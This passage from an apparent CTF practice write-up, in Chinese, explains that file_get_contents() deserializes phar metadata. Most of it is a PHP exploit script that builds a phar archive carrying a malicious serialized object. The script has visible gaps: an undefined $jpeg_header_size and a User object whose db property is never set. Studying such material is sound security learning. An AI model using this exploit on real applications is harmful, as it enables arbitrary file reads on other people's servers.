 

# 3. file_get_contents()函数解析phar://伪协议时会将meta-data类型的数据进行反序列化

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/buuctf练习笔记/images/E6D53CACB7AB45019DA9DF43FAD4AA67clipboard.png)



# 4.exp



直接构造：

```javascript
<?php
class File {
    public $filename;

    public function close() {
        return file_get_contents($this->filename);
    }
}

class User {
    public $db;
    public function __destruct() {
        $this->db->close();
    }
}

$phar = new Phar("phar1.phar");
$phar->startBuffering();
$phar->addFromString("exp.txt","test");
$phar->setStub($jpeg_header_size." __HALT_COMPILER(); ?>");

$user=new User();


$phar->setMetadata($user);
$phar->stopBuffering();
```
